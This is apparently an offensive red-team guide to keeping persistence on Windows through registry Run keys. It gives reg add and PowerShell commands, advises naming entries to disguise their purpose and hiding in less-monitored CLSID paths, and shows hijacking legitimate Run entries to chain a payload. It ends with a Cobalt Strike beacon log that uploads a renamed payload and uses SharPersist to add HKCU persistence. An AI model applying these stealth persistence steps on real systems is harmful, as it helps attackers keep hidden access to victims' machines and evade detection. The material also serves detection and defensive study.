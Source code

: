```yaml
---
legal-banner: true
---
```


### **Establishing Persistence Using Registry Keys**

Using the Windows Registry for persistence involves creating or modifying registry keys that instruct Windows to automatically execute specific programs or scripts at certain events, like system startup or user logon.

### **Step 1: Selecting the Appropriate Registry Key**

Depending on the persistence requirement (system-wide or user-specific), choose the appropriate registry location:

1.  For all users (requires administrative privileges) :  
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
2.  For the current user only:  
    `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
3.  Ensure the executable or script is reliable and placed in a secure, accessible location. It should not require additional prompts or permissions that might hinder its execution.
    

### **Step 2: Adding a Registry Entry**

1.  Open the Registry Editor: Press `Win + R`, type `regedit`, and press Enter. Ensure you have the necessary permissions to modify the registry.
    
2.  Navigate to the appropriate key
    
3.  For system-wide execution, navigate to  
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.
    
4.  For current user execution, navigate to  
    `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.
    
5.  Create a new string value
    
6.  Right-click in the right pane, select  
    `New` > `String Value`.
    
7.  Name the new string value descriptively to disguise its purpose (e.g., `SystemHelper`).
    
8.  Set the value of the new entry:
    
9.  Double-click the new string value and enter the path to your executable or script as the value data. For example:  
    `C:\Path\To\Your\Executable.exe`
    

### **Step 3: Testing Persistence**

1.  Restart Your Computer or log out and then log back in (if using HKEY_CURRENT_USER) to test if the setup works.
2.  Verify Execution: After logging back in or restarting, check if your program or script runs automatically.
3.  Remove or Disable the Registry Entry When No Longer Needed:  
    `reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v SystemHelper /f`

### **Technique 1: Using Alternate Registry Paths**

Some applications use specific registry paths to configure auto-start settings. You can place your persistence mechanism in less commonly monitored registry paths.

1.  Identify Custom Registry Keys: Applications may use custom registry keys for auto-start. Identify these through documentation or by monitoring application installations.
2.  Example: Instead of the standard Run keys, you might use:  
    `HKEY_CURRENT_USER\Software\Classes\clsid\{GUID}\shell\open\command`
3.  Place your executable path here to trigger it when the application linked to the GUID is invoked.

### **Technique 2: Registry Key Hijacking**

Modify existing legitimate registry keys to include your persistence payload, which can be particularly stealthy.

1.  Find Vulnerable Keys: Use a registry scanner to find legitimate keys that auto-start programs, services, or drivers that frequently update or change.  
    `Find legitimate keys that auto-start programs, services, or drivers that frequently update or change.`
    
2.  Append or Modify the Executable Path:  
    `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "LegitimateService" /d "C:\Path\To\Your\Executable.exe && original_command.exe" /f`
    

### **Technique 3: PowerShell Registry Manipulation**

Manipulate registry keys using PowerShell to leave fewer traces and utilize more complex logic.

1.  Develop a Script: Use PowerShell's ability to script complex conditions, check for user activity, or system states before modifying the registry.
    
    ```POWERSHELL
    If ((Get-Process -Name explorer -ErrorAction SilentlyContinue) -ne $null) {
      Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "C:\Path\To\Script.ps1"
    }
    ```
    

### **Cobalt Strike Example**

AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
Where:
```

-k is the registry key to modify.
-v is the name of the registry key to create.